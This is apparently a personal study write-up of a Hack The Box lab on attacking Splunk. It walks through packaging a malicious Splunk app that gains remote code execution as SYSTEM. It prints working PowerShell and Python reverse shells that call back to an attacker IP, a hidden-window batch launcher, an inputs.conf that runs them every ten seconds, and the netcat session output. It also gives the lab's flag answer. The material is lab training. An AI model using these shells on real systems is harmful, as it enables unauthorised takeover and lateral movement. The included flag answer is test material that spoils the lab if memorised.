 # Attacking Splunk

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1).&#x20;

first we need to create a custom Splunk application using the following directory structure.

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

* bin -> will contain scripts we want to run
* default -> will contain inputs.conf

**PowerShell one-liner reverse shell**

{% code overflow="wrap" %}
```powershell-session
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

**inputs.conf** tells Splunk which script to run and any other conditions

we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

next step is to choose `Install app from file` and upload the application.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/install_app.png" alt=""><figcaption><p>Install app from file</p></figcaption></figure>

start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`

<figure><img src="https://academy.hackthebox.com/storage/modules/113/upload_app.png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

* we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network

{% hint style="info" %}
If we were dealing with Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app
{% endhint %}

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

## Assessment

Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.



edit ps1 file and add our IP address and PORT to connect then upload through&#x20;

Splunk enterprise > App > Manage App > install app from file > browse&#x20;

listen before clicking upload.

<figure><img src="../../../.gitbook/assets/ภาพ (1).png" alt=""><figcaption><p>nt authority\system</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (13).png" alt=""><figcaption><p>l00k_ma_no_AutH!</p></figcaption></figure>

